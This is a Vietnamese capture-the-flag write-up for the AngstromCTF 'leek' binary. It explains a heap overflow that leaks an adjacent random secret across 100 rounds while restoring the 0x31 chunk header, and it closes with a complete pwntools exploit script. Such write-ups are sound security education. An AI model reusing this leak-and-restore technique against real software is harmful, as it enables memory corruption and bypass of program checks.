



# Angstromctf - Leek

# 1. Xem thông tin file

Ta sẽ dùng lệnh `file` để xem thông tin file challenge:
```
leek: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=52fb15c64c5e12ea6c59efafa15237b40d51a3ea, for GNU/Linux 3.2.0, not stripped

```
Đây là file 64-bit không bị ẩn tên hàm. Kế đến, ta sẽ kiểm tra security của file:
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

Tiếp đến đưa file vào ida-64bit, ở đây mình đã sửa lại tên một số hàm và biến để dễ quan sát luồng thực thi



# 2. Phân tích 


Ở đây sau khi đầu vào chúng ta phải nhập giá trị của `v9` rồi in ra nó 

Sau đó bắt chúng ta nhập vào giá trị `s2` trước đó đã được `getrandom`

Nếu ta đoán đúng `0x64` lần thì ta sẽ tới được hàm `win()`

# 3. Khai thác

Đầu tiên mình sẽ thử nhập vào 8 ký tự

```
p.sendlineafter(b"VERFLOWS!!):", cyclic(0x8))
```



Ở đây do ta được cấp phát con trỏ `v9` và `s2`ở cạnh nhau nên có thể lợi dụng lỗ hổng heap_overflow

để leak giá trị `s2` và bypass `0x64` lần để tiến đến hàm `win()`



Cần lưu ý ở đây là heap sẽ có 1 chunk size (ở đây là `0x31`), nếu ta ghi đè giá trị này mà chương trình sau đó `free()` ta sẽ gặp lỗi

Vậy nên mình sẽ dùng lần ghi biến `v9` tiếp theo để trả lại giá trị của nó tại đó

# Full code:

```
#!/usr/bin/python3
from pwn import *

elf = context.binary = ELF("leek")
libc = elf.libc

local = True 
if local:
    p = process("./leek")
    #gdb.attach(p,gdbscript='''''')
else:
    p = remote('challs.actf.co', 31310)

elf = context.binary = ELF('./leek', checksec=False)

for i in range(100):
    p.sendlineafter(b"VERFLOWS!!):", b"a"*31)
    p.recvuntil(b"a"*31 + b"\n")
    leak = p.recv(32)
    p.send(leak)
    p.sendline(b"a"*24 + p64(0x31))
    print("Round", int(i+1))

p.interactive()

```


